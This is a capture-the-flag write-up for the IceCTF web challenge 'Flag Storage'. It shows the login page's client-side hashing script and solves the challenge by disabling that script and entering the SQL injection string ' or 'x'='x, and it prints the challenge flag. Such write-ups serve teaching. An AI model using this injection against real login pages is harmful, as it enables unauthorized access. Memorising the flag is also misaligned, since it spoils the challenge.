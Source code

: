 ```yaml
---
layout: writeup
title: 'Flag Storage'
level: 2
difficulty:
points:
categories: [web]
tags: []
flag: IceCTF{why_would_you_even_do_anything_client_side}
---
```

## Challenge

What a cheat, I was promised a flag and I can't even log in. Can you get
in for me? flagstorage.vuln.icec.tf. They seem to hash their passwords,
but I think the problem is somehow related to [this][1].

## Solution

We have to bypass the login system using SQL injections, page looks as
follows:

    <!doctype html>
    <html>
    <head>
        <meta charset="utf-8" />
        <title>Log In</title>
        <link rel="stylesheet" href="//cdnjs.cloudflare.com/ajax/libs/skeleton/2.0.4/skeleton.min.css" />
    </head>
    <body>
        <div class="container">
     <form method="post" action="login.php" id="form">
    <label for="username">Username: </label>
    <input class="u-full-width" type="text" name="username" placeholder="Username" />
    <label for="password">Password: </label>
    <input id="password_plain" class="u-full-width" type="password" name="password_plain" placeholder="Password" />
    <input id="password" type="hidden" name="password"/>
    <input type="submit" value="Log In">
    </form>
    </div>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.0/jquery.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jsSHA/2.2.0/sha.js"></script>
    <script>
    $(function(){
        var updatePassword = function(e){
            // hash client side for better security, never leak the pw over the wire
            var sha = new jsSHA("SHA-256", "TEXT");
            sha.update($(this).val());
            $("#password").val(sha.getHash("HEX"));
        };
        $("#password_plain").on("change", updatePassword);
        $("#form").on("submit", updatePassword);
    });
    </script>
    </body>
    </html>
{: .language-html}

The password is hashed client side, so we just disable that script, and
enter `' or 'x'='x` for both username and password to log in and get our
flag:

    Logged in!
    Your flag is: IceCTF{why_would_you_even_do_anything_client_side}


[1]: https://en.wikipedia.org/wiki/SQL_injection
